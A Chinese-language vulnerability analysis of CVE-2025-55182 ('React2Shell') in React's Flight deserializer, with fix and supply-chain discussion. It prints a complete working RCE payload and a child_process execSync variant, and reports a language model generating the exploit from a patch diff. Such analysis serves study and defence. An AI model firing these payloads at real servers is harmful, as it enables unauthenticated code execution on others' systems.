值得注意的是，`constructor` 并非对象自身的属性（own property），而是通过原型链继承而来。在漏洞版本代码中，`getOutlinedModel` 使用直接属性访问语法 `value[path[i]]`，未通过 `hasOwnProperty` 检查属性是否属于对象自身，因此攻击者能够成功穿越原型链。这一遗漏构成了整个利用链的第一个关键环节。

### Fake Chunk：构造攻击者可控的 thenable 对象

仅仅获得 `Function` 构造函数的引用并不足以触发代码执行——攻击者还需要一个能够将控制字符串输入传递给 `Function` 的调用点，并且还需要一个合理的执行上下文来规避语法错误。在 Flight 协议的 `initializeModelChunk`（第 446 行）和 `parseModelString`（第 916 行）中，攻击路径的有效性完全依赖于攻击者能否控制 `Chunk.prototype.then` 被调用时的 `this` 上下文。

攻击的第一步尝试是直接利用负载 #1 获取 `Function`：

```javascript
const files = {
  "0": '{"then":"$1:constructor:constructor"}',
  "1": '[]',
};
```

该负载在 `getOutlinedModel` 的第 614 行处实现了 `[].constructor.constructor → Function` 的遍历，但最终产生的解码结果 `{then: Function}` 在 `await` 阶段触发 `Function(resolve, reject)`，而 `resolve` 和 `reject` 在函数体中被当作未定义标识符，导致语法错误。

为避免此问题，攻击者需要 `then` 属性指向一个合法的 `then` 函数。`Chunk.prototype.then`（第 127 行）恰为候选。而获取该函数的关键在于 `parseModelString` 中 `$@id` 分支（第 929–933 行）的行为——该分支直接 `return chunk`，返回值是 `Chunk` 实例而非其解码后的 JavaScript 值。攻击者利用这一特性构造负载 #2，以循环引用获取 `Chunk.prototype.then`：

```javascript
const files = {
  "0": '{"then":"$1:then"}',
  "1": '"$@0"',
};
```

解码步骤：块 0 解码 `then` 属性时，通过 `getOutlinedModel` 的默认分支（第 1085–1086 行）触发对块 1 的解析；块 1 的值 `"$@0"` 经 `parseModelString` `$@` 分支（第 931–932 行）直接返回块 0 的 `Chunk` 实例——该实例继承自 `Promise.prototype`（第 125 行），因而是 thenable；随后 `getOutlinedModel` 第 614 行在该实例上执行 `chunk0["then"]`，获得 `Chunk.prototype.then`。块 0 解码完毕时 `value` 为 `{then: Chunk.prototype.then}`。

然而 `Chunk.prototype.then` 被 `await` 调用时的 `this` 上下文为此对象，其 `status` 为 `undefined`，不命中第 136 行的 `RESOLVED_MODEL` 分支。为实现对 `initializeModelChunk` 的入侵，攻击者在块 0 的负载中额外注入 `"status": "resolved_model"` 与 `"reason": 0`，使 `this.status` 通过第 136–138 行的 switch 检查，触发 `initializeModelChunk(fakeChunk)`——其中 `fakeChunk` 已完全由攻击者构造。

### 利用 $B 引用完成代码执行

当 `initializeModelChunk` 运行在攻击者控制的伪造块上时，攻击者需要在伪造块上构造三个关键属性：`value` 包含 `{"then":"$B0"}` 的 JSON 字符串，`_response._prefix` 为恶意代码字符串（后跟 `//` 注释掉拼接后缀），`_response._formData.get` 指向 `Function` 构造函数。攻击者通过 `"$1:then:constructor"` 路径从合法块中提取 `Function`（利用第 614 行的原型链遍历），将其赋值给 `_formData.get`。

在 `initializeModelChunk` 第 466 行的 `JSON.parse(chunk.value)` 产生 `{then: "$B0"}` 后，`reviveModel` 遍历此对象并进入 `parseModelString`。`$B` 分支（第 1059–1068 行）执行以下逻辑：

```javascript
// ReactFlightReplyServer.js 第 1059–1068 行
case 'B': {
  const id = parseInt(value.slice(2), 16);
  const prefix = response._prefix;                     // 攻击者注入的代码字符串
  const blobKey = prefix + id;                         // 拼接: "恶意代码;//0"
  const backingEntry = response._formData.get(blobKey);// get 已被替换为 Function
  return backingEntry;                                 // Function("恶意代码;//0")
}
```

由于 `_formData.get` 已被替换为 `Function`，第 1066 行实际执行 `Function("console.log('Hacked!');//0")`，创建一个以攻击者注入代码为函数体的新函数对象。`//` 将后续数字变为注释，确保语法合法。`reviveModel` 随后返回 `{then: Function(...)}`，`initializeModelChunk` 第 488 行将其标记为 `INITIALIZED`。流程回归 `Chunk.prototype.then` 第 142–143 行的 `resolve(chunk.value)` 后，JavaScript 的 `await` 检测到 thenable 对象中的可调用 `then`，以 `(resolve, reject)` 为参数执行该函数——攻击者代码在服务端 Node.js 进程中运行，攻击完成。

完整攻击payload如下：

```javascript
const files = {
  "0": JSON.stringify({
    "then": "$1:then",
    "status": "resolved_model",
    "reason": 0,
    "_response": {
      "_prefix": "console.log('Hacked!');//",
      "_formData": { "get": "$1:then:constructor" }
    },
    "value": '{"then":"$B0"}'
  }),
  "1": '"$@0"'
};
```

## React2Shell 漏洞复现

靶机运行受影响的 Next.js 15.3.8 服务，通过 `npx create-next-app@15.0.0` 初始化项目，所有参数使用默认值，然后执行`npm run build`编译包，使用`npm run start`启动服务。

攻击机与靶机处于同一局域网内。攻击机发送前述payload，看到靶机成功回显`Hacked!`，然后将`_prefix`改为`process.mainModule.require('child_process').execSync('calc.exe')`并执行，看到成功弹出计算器程序，确认攻击者已获得完整的远程代码执行权限。整个过程无需任何认证凭据，攻击负载不依赖目标应用定义的任何业务逻辑。




## 现代 Web 框架的远程代码执行风险与供应链安全治理

React2Shell 漏洞的出现，虽然集中在 React Flight 协议这一特定组件的反序列化逻辑上，但其揭示的安全风险本质却触及了现代 Web 框架设计的多个深层次问题。从软件安全工程与供应链治理的视角来审视这一事件，可以提炼出若干具有普遍意义的经验教训与启示。

### 序列化-反序列化边界是不可忽视的安全前沿

无论是传统的 Java 反序列化漏洞、.NET 的 `BinaryFormatter` 问题、Python 的 `pickle` 滥用，还是 JavaScript 生态中由 `node-serialize` 等包引入的代码执行风险，序列化与反序列化边界始终是应用安全领域中最危险、最易被攻击者突破的薄弱环节之一。React Flight 协议本质上是一种服务于组件树的双向序列化协议：服务端将组件序列化为传输格式发送给客户端，客户端将调用请求和参数序列化为载荷发送给服务端。这种双向数据流意味着攻击面翻倍——不仅服务端对客户端的输出存在被篡改的风险，客户端（或仿冒者）向服务端发送的输入同样可能携带恶意构造的负载。

React2Shell 的根本教训在于：任何反序列化过程，只要涉及对攻击者可控数据的解析，都必须执行严格的白名单式访问控制。具体到 JavaScript 环境，这意味在遍历对象属性时必须依赖 `hasOwnProperty` 而非直接属性访问，在解析引用时必须限制可访问的对象类型，在任何可能执行代码或调用函数的路径上都必须进行充分的输入校验与消毒。这些原则虽是安全工程的基础常识，但在超过千行的复杂协议实现中，任何一个遗漏都可能成为攻击者突破全局防线的一把钥匙。

### 复杂协议实现中的安全审计挑战

React Flight 协议的设计初衷是在高性能、高可靠性的前提下完成复杂的组件树双向序列化任务，其实现自然地演化为一千余行的状态机代码，包含多种块状态、多个引用分支和复杂的异步初始化逻辑。这种复杂性使得对代码路径进行全面的安全审计变得异常困难。事实上，在 React2Shell 被公开披露之前，`ReactFlightReplyServer.js` 已经历了多次重构和性能优化，但多个关键安全属性——如 `_response` 在 Chunk 对象上的公开可见性、`getOutlinedModel` 中缺少属性访问检查——均在这些迭代中被保留下来。

这提醒我们，框架核心组件的复杂度与安全性之间存在内在的张力。解决这一张力的方式不是牺牲功能，而是在架构设计层面引入安全默认值（secure defaults）：将敏感的内部上下文从公开属性中剥离（如将 `_response` 移至基于 Symbol 的私有存储），在属性访问层实施默认的 `hasOwnProperty` 防护，并在编码规范中强制要求对所有 `[]` 形式的属性访问进行所属检查。更重要的是，复杂协议的安全审计不能仅依赖人工代码审查，应当引入基于形式化验证和自动化模糊测试的工具辅助，以尽可能在发布前覆盖更多的攻击路径。

### 供应链安全在 Web 框架生态中的特殊性与挑战

React2Shell 的爆发暴露出 Web 前端框架生态中一个被长期忽视的深层安全问题——底层依赖的不透明性与开发者对框架的隐性信任之间存在难以弥合的信息鸿沟。现代 Web 框架——无论是 Next.js、Nuxt、SvelteKit 还是 Remix——都不仅是一个工具集，更是一种世界观。开发者选择 Next.js，意味着他们同时接纳了其路由体系、渲染策略、数据获取模式以及底层协议栈的全部实现细节，而无需——通常也无力——对这些细节进行独立的安全评估。当框架以"零配置生产可用"的姿态将 React Server Components、Server Actions 和 Flight 协议打包为一场默认开启的能力时，开发者实际上面临着一种"安全的幻觉"：他们默认框架厂商已经对所有内置功能进行了充分的安全审查，默认底层序列化协议是沙盒化的，默认一个未经认证的 HTTP POST 请求不可能触发进程级的代码执行。React2Shell 以最极端的方式证明了这种隐性信任的脆弱性。

### 从漏洞响应速度看安全协作机制的有效性

React2Shell 的漏洞响应过程是近年来漏洞披露协作中较为成功的一个案例。从研究者的负责任披露到厂商确认、修复开发、质量保证测试、安全公告发布和生态协同分发，整个过程在 4 天之内完成。AWS、Cloudflare 等云服务商和 WAF 厂商在公告发布之时即已部署了临时的虚拟补丁（virtual patching），为下游用户争取了宝贵的修补窗口。

这种高效的多方协作模式表明，在关键性漏洞的响应中，框架厂商、基础设施服务商、监管部门和安全研究社区之间形成协同已具备可行性和有效性。未来应当推动这种协作模式的制度化和常态化：鼓励框架厂商与主要云服务商之间建立安全情报共享预备通道，在漏洞公开前进行预先通知；推动国家层面的漏洞数据库（如 NVD）与 CISA KEV 之间的数据同步自动化；在安全研究社区中倡导高质量的漏洞分析（如技术白皮书和学术论文）的发表，帮助整个生态系统从每一个重大漏洞中汲取共同的教训。

### 大语言模型在漏洞利用链构造中的影响

在 CVE-2025-55182 的官方修复提交于 12 月 3 日公开之后到安全研究者发布经过人工验证的可靠概念验证代码之间的约 30 小时窗口期内，互联网上已涌现出大量声称能够利用该漏洞的脚本和工具。然而，经过安全社区的逐一审查，这些早期流动的 PoC 绝大多数由大语言模型生成，存在严重的适用性问题：部分脚本错误地将攻击路径指向了 `requireModule` 而非实际的漏洞核心 `ReactFlightReplyServer.js`，部分脚本仅在攻击者已经人为暴露了危险功能（如 `vm.runInThisContext` 或 `child_process.exec`）的场景下才能工作——而这并非该漏洞的真正危害所在，部分脚本甚至因包含凭空虚构的 API 调用而完全无法执行。这一现象反映出在当时大语言模型在理解复杂协议级漏洞的攻击链构造方面仍存在显著的认知局限性。

然而，随着大语言模型的发展，这项问题不再显著。在本研究的实验过程中，我们使用当前的SOTA模型，提供漏洞对应的commit diff和源代码仓库，在较短时间内，仅凭借少量提示成功生成了能够在受影响版本上稳定触发远程代码执行的完整 exploit 脚本。这意味着从补丁公开到自动化高可靠性利用代码生成的延迟将从以天或小时计缩短至以分钟计，对漏洞应急响应的时间窗口构成前所未有的压力。

## 结语

CVE-2025-55182（React2Shell）作为迄今为止 React 生态系统中最严重的安全漏洞，以其 CVSS 10.0 分的满分评级和发布后数小时内即出现的广泛野外利用，成为了现代 Web 框架安全历史上的一个标志性事件。本文从漏洞的发现与披露时间线出发，系统性地追溯了攻击链条的每一个技术环节——React Flight 协议的基本反序列化机制、原型链遍历与 `Function` 构造函数的获取、Fake Chunk 的 thenable 劫持技巧以及最终的 `$B` 路径代码注入——从而完整揭示了这一漏洞的形成机理。

在修复层面，本文详细剖析了 React 团队在 4 天内完成的修复方案：通过在 `getOutlinedModel` 的路径遍历中引入 `hasOwnProperty` 检查来阻断原型链遍历，通过将 `Chunk` 重构为 `ReactPromise` 并利用 Symbol 保护内部上下文来阻断虚假上下文注入，以及通过 `backingEntry` 的类型强校验来加固数据注入边界。三者共同构成了一个多层次、立体化的安全加固体系，为同类反序列化漏洞的修复提供了具有参考价值的工程范例。

从更宏观的视角来看，React2Shell 带给整个 Web 前端生态的安全启示不容小觑。序列化-反序列化边界的安全防护不应被视为事后补救事项，而应内嵌为框架基础架构的核心设计约束。复杂的状态机协议需要同步建立与之匹配的自动化安全验证能力。供应链信息的不透明性——尤其是内嵌依赖的版本可追溯性问题——急需通过标准化的 SBOM 机制来改善。而多方协同的快速响应模式则为未来的漏洞应急管理树立了可以复制的成功模板。React2Shell 不仅是 React 的一个漏洞，更是整个 Web 开发社区的一面安全之镜——照见了框架复杂性快速增长背后所隐藏的、亟待被系统性治理的安全风险。
